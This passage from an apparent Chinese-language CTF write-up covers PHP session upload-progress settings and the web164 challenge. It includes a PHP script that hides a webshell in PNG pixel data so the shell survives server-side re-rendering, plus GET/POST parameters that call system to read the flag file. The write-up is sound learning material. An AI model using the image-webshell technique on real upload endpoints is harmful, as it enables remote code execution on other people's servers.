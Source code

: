 session文件上传条件？为什么要竞争？

```
session.upload_progress.enabled 选项开启时（默认开启） //文件上传进度
session.upload_progress.cleanup = on
//表示当文件上传结束后，php将会立即清空对应session文件中的内容。该选项默认开启
session.auto_start：如果开启这个选项，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，也是通常情况下，这个选项都是默认关闭的。
```

参考链接：[浅谈 SESSION_UPLOAD_PROGRESS 的利用](https://xz.aliyun.com/t/9545#toc-1)

## web164

### 考点：png二次渲染绕过

首先上传正常的图片，下载下来与原图比较，发现内容有变化

猜测可能是图片进行了二次渲染

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
    0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
    0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
    0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
    0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
    0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
    0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
    0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'11.png'); #保存在本地的图片马
?>
```

利用脚本生成图片马

![image-20231206130828586](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231206130828586.png)

利用包含点，执行命令

```
GET:
0=system
POST:
1=cat flag.php
```
